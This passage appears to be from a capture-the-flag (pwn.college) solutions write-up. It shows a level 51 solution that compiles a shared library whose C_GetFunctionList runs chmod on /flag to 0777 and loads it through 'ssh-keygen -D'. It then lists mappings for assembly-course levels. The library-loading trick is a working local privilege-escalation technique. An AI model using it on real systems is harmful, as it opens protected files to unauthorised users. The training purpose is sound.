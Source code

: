 `gcc -shared -o ~/lvl51.so ~/lvl51.c` to compile the shared library

`ssh-keygen -D ~/lvl51.so` to provide the compiled shared library to the ssh-keygen command

**Alternative:** **lvl51.c**

```c
#include <sys/stat.h>
int C_GetFunctionList() {
    chmod("/flag", 0777);
    return 0;
}
```

`gcc -shared -o ~/lvl51.so ~/lvl51.c` to compile the shared library

`ssh-keygen -D ~/lvl51.so` to provide the compiled shared library to the ssh-keygen command

This will grant you access to the flag file. You can now run `cat /flag` and get its content.

> Instead of reading and printing the flag, which requires more C knowledge, we're gonna use chmod to grant to all users full access to the `/flag` file.





****

# Assembly

https://github.com/142y/pwn_college_solutions/tree/main/Assembly-Refresher-Solutions

Python script to run all the challenges: [assembly_run.py](../pwn_files/assembly_run.py) (look in the zip file)

###### PwnCollege

Correspondences between our site and that of pwn college (so that you can continue practicing even after it's been shutdown) $\rightarrow$ https://pwn.college/computing-101/assembly-crash-course/

- Level1	$\longrightarrow$	set-register
- Level2	$\longrightarrow$	add-to-register
- Level3	$\longrightarrow$	linear-equation-registers
- Level4	$\longrightarrow$	integer-division
- Level5	$\longrightarrow$	modulo-operation
- Level6	$\longrightarrow$	efficient-modulo
- Level7	$\longrightarrow$	byte-extraction
- Level8	$\longrightarrow$	bitwise-and
- Level9	$\longrightarrow$	check-even
- Level10      $\longrightarrow$	memory-read
- Level11      $\longrightarrow$	byte-access
- Level12      $\longrightarrow$	little-endian-write
- Level13      $\longrightarrow$	memory-sum
- Level14      $\longrightarrow$	stack-subtraction
- Level15      $\longrightarrow$	swap-stack-values
- Level16      $\longrightarrow$	average-stack-values
- Level17      $\longrightarrow$	jump-trampoline
- Level18      $\longrightarrow$	conditional-jump
- Level19      $\longrightarrow$	indirect-jump
- Level20      $\longrightarrow$	average-loop
- Level21      $\longrightarrow$	count-non-zero
- Level22      $\longrightarrow$	string-lower
- Level23      $\longrightarrow$	most-common-byte
